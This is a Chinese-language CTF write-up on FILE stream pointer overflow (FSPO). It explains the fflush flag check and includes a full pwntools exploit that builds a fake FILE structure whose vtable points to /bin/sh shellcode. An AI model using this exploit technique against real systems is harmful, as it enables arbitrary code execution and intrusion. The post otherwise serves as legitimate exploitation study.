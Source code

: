 ```yaml
---
title: Attention about FSPO
date: 2017-06-12 00:12:54
tags:
- FILE stream pointer overflow
categories:
- misc_exploit
---
```


我一直以为单纯的伪造fake FILE结构体就行，然后把vtable设置为shellcode的地址或者类似的gadget的地址。但是今天做的那个FSPO那个题按照这思路还是有点问题的。不知道为啥我明明调试调到了fflush内部我居然没仔细看出错的原因....不稳~
需要注意的是文件操作函数内部的条件判断。
例如：fflush函数内部开始有如下判断：
<!-- more -->
```c
int __fastcall fflush(__int64 a1)
{
  __int64 v1; // rdx@2
  __int64 v3; // r9@3
  bool v5; // zf@4
  __int64 v6; // rbx@11
  __int64 v7; // rdx@11
  __int64 v9; // rsi@13
  bool v10; // zf@14

  if ( a1 )
  {
    v1 = a1;
    if ( *(_DWORD *)a1 & 0x8000 )
    {
LABEL_11:
      v6 = v1;
    ......
}
```
所以当伪造fake FILE结构体时开始的四字节要设置为0x8000。

题目如下：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+0h] [bp-D0h]@1
  FILE *stream; // [sp+C8h] [bp-8h]@1

  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  setbuf(stderr, 0LL);
  printf("enter the secret:", 0LL);
  read(0, &store, 0x3E8uLL);
  stream = fopen("./test", "wb");
  printf("enter your name:", "wb");
  read(0, &buf, 0xD0uLL);
  fflush(stream);
  fclose(stream);
  return 0;
}
```

题目比较简单，伪造一个假的FILE结构体就行。
```python
from pwn import *

debug = 1
if debug:
  p = process('./pwn1')
else:
  p = remote('10.50.1.3', 8888)

store_addr = 0x6010A0
fake_file = p32(0x8000) + '\x00' * 0xd4 #FILE
fake_file += p64(store_addr + 0xd8 + 8) # vtable
fake_file += p64(0x6012c0) * 40
sc = "\xeb\x10\x48\x31\xc0\x5f\x48\x31\xf6\x48\x31\xd2\x48\x83\xc0\x3b\x0f\x05\xe8\xeb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
fake_file += sc

p.recvuntil("enter the secret:")
p.send(fake_file)
#gdb.attach(p)
p.recvuntil("enter your name:")
payload = 'a' * 0xc8 + p64(store_addr)
p.sendline(payload)

p.interactive()
```
